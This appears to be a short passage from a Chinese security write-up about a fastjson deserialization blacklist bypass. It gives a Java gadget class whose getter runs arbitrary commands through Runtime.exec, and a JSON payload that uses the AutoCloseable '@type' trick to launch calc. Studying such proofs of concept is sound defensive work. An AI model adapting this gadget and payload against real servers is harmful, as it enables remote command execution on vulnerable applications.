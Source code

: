 fastjson在黑名单中还加上了java.lang.Runnable、java.lang.Readable，这个利用场景拿Runnable举个例子

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecRunnable implements AutoCloseable {
    private EvalRunnable eval;

    public EvalRunnable getEval() {
        return eval;
    }

    public void setEval(EvalRunnable eval) {
        this.eval = eval;
    }

    @Override
    public void close() throws Exception {

    }
}

class EvalRunnable implements Runnable {
    private String cmd;

    public String getCmd() {
        System.out.println("EvalRunnable getCmd() "+cmd);
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c",cmd});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }

    @Override
    public void run() {

    }
}
```

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecRunnable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalRunnable","cmd":"calc"}
}
```
